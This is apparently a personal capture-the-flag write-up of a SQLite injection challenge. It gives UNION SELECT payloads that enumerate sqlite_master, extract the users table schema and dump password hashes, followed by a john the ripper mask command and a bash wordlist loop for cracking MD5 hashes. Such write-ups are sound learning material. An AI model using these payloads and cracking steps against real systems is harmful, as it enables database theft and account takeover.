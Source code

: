 ### This is a very cool challenge, I didn't solve it (nearly), but, nah, just write down to remember stuff
This is a SQLite injection, how do I know it was SQLite, well fuzzing and sqlmap

So the syntax of the payload is the same but the way to extract is different:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

With this I get the table name is users:
%22 UNION SELECT tbl_name,2 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- -

And with this I get the column name:
%22 UNION SELECT 1,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='users' -- -
```
CREATE TABLE users (
	username text primary key not null,
	password_hash text not null,
	hint text not null,
	bio text not null)
  ```
  From this just normal payload:
  %22 UNION SELECT username,password_hash FROM users -- -
  So what I encounter is a bunch of md5 hash with rules
  <img src="https://github.com/phulelouch/WRITE_UP/blob/master/SQL_Injection/login_page.png">
  <img src="https://github.com/phulelouch/WRITE_UP/blob/master/SQL_Injection/login_page2.png">
 With that it mean we have to crack it with its rule
 - The easiest was the noob password, just google it and login 
 - Then come to the phone number, using john the ripper with mask for rule:
 	john --format=raw-md5 flag2.txt --mask=?d?d?d-?d?d?d-?d?d?d?d --fork=12
 - Next it would be Greek God + My least favorite US, so what I did was listing out some of the most popular Greek Gods and concat it with script, and just bruteforce it (faster)
 ```
 while read line; do
	while read liness; do
		echo $line$liness | tr -d ' ' 
	done < "/home/phulelouch/Desktop/US.txt"
done < "/home/phulelouch/Desktop/god.txt"
 ```
